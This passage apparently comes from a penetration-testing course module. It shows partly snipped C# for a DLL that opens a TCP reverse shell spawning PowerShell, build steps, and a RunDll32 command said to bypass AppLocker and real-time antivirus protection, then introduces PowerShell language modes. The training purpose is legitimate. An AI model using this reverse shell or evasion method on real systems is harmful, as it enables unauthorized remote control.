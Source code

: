 ```csharp
<SNIP>
[DllExport("DllMain")]
public static void DllMain()
{
    try
    {
        // Connect to <IP> on <Port>/TCP
        TcpClient client = new TcpClient();
        client.Connect("10.10.10.10", 1010);
        <SNIP>
        p.StartInfo.FileName = "C:\\Windows\\SysWOW64\\WindowsPowerShell\\v1.0\\powershell.exe";
        <SNIP>

```

Once the project is ready, we can compile it. If the process path is changed to spawn the `32-bit` version of `PowerShell`, we only need to switch `Debug` to `Release`. However, to launch the `64-bit` version of `PowerShell`, we need to go through the same process as in the previous section, changing `Any CPU` to `x64`.

![image](https://academy.hackthebox.com/storage/modules/254/2/78.png)

Once the compilation settings are set, select `Build > Build RShell_D` to compile the program.

![image](https://academy.hackthebox.com/storage/modules/254/3/17.png)

Once compiled we may use the following command to execute `DllMain`, and we should get our reverse shell:

```powershell
C:\Windows\System32\RunDll32.exe C:\Tools\RShell_D\RShell_D\bin\Release\x86\RShell_D.dll,DllMain

```

As expected, the program works, bypassing both `AppLocker` and `Real-time protection`.

![image](https://academy.hackthebox.com/storage/modules/254/3/18.png)

Note: `InstallUtil` and `RunDll32` are just two of many LOLBINs which may be used to gain code execution. It is recommended that you look around the LOLBAS project website, and try developing other payloads to expand your personal arsenal.


# PowerShell ConstrainedLanguage Mode

## Introduction to PowerShell ConstrainedLanguage Mode

The last thing we will cover in this module is [PowerShell ConstrainedLanguage Mode](https://devblogs.microsoft.com/powershell/powershell-constrained-language-mode/). In `PowerShell`, there are four different [language modes](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_language_modes?view=powershell-7.4):

- `FullLanguage`: The default language mode, no restrictions.
- `RestrictedLanguage`: Users may run commands, but may not use script blocks.
- `ConstrainedLanguage`: Operations which could be abused by a malicious actor are restricted.
- `NoLanguage`: Completely disables the PowerShell scripting language
